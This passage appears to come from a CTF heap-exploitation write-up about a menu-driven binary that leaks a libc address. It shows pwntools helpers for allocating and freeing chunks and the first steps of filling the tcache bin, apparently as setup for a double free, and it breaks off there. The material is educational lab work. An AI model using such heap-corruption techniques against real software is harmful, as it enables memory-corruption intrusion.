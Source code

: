 Running and testing the binary:

```s
puts() @ 0x7f485a064bc0

1) add
2) free
3) show
4) exit
>
```

<br />

We can see from the beginning we already have libc leaked, so we don’t even need to worry about that besides that we have 4 options we can add, free, show and exit.

To demonstrate, let's prepare some helper functions for add and free:

```python
count = 0
def add(size, data):
    global count
    p.send("1")
    p.sendafter("size: ", f"{size}")
    p.sendafter("data: ", data)
    p.recvuntil("> ")
    count += 1
    return count - 1

def free(count):
    p.send("2")
    p.sendafter("count: ", f"{count}")
    p.recvuntil("> ")

```

<br />

Add 7 chunks of 0x50 size.
<br />

```python
for i in range(7):
    add(0x58, "A"*8)
```

<br />

Add a temp chunk for duplicate.

```python
temp = add(0x58, "B"*8)
```

<br />

Free the 7 0x50 chunks to fill the `tcachebin`.
